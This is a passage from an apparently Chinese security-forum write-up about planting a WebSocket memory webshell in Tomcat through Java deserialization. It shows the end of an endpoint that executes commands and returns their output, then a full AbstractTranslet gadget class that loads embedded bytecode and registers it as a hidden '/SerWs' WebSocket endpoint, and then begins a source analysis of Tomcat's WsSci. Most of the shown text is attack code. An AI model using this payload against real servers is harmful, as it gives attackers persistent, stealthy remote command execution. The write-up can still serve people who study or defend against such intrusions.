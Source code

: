 ```java
            process.waitFor();
            session.getBasicRemote().sendText(output.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```java
public class SerWebSocketShell extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet {
    static {
        try {
            // 这段字符数组就是上面SerWebSocket1.class转换成的
            byte[] w = new byte[]{-54, -2, -70, -66, ..., 6, 9};
            Method method = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
            method.setAccessible(true);
            Class cls = (Class) method.invoke(Thread.currentThread().getContextClassLoader(), w, 0, w.length);
            Object o = cls.newInstance();
            org.apache.catalina.core.ApplicationContextFacade ac = (org.apache.catalina.core.ApplicationContextFacade) ((WebappClassLoaderBase)Thread.currentThread().getContextClassLoader()).getResources().getContext().getServletContext();
            ((ServerContainer) ac.getAttribute("javax.websocket.server.ServerContainer")).addEndpoint(ServerEndpointConfig.Builder.create(o.getClass(), "/SerWs").build());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
}
```

然后就可以反序列化了，放一张成功的截图，就是这种发送的数据包实在太大了

![8.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-0a6b709b5a43f2b99af93d569460e0479cce6c6a.png)

### 0x03 源码分析

最后再看一下tomcat是如何加载WebSocket的  
Tomcat 提供了一个`org.apache.tomcat.websocket.server.WsSci`类来初始化、加载`WebSocket`。这个类就两个方法，很简单，可以直接开搞，但断点应该下在进入这个类之前，也就是`StandardContext`中，或者再往前一点
